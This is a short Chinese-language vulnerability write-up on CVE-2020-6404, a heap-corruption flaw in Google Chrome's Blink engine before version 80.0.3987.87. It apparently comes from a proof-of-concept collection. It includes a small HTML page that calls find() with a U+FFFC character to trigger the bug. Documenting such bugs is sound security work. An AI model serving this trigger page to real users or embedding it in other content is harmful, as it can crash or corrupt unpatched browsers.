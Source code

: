 ```yaml
---
title: （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞
id: zhfly2960
---
```


# （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞

## 一、漏洞简介

在80.0.3987.87之前的Google Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

## 二、漏洞影响

Google Chrome 80.0.3987.87

## 三、复现过程

### poc

```
<!DOCTYPE html>
<head>
<script type="text/javascript">
document.addEventListener("DOMContentLoaded", function(){
find(decodeURIComponent('\uFFFC'));
});
</script>
</head>
<body>
<legend></legend>
</body>
</html> 
```

![image](../img/d7f0f43f5fa6e31cbdf002b00776d4a5.png)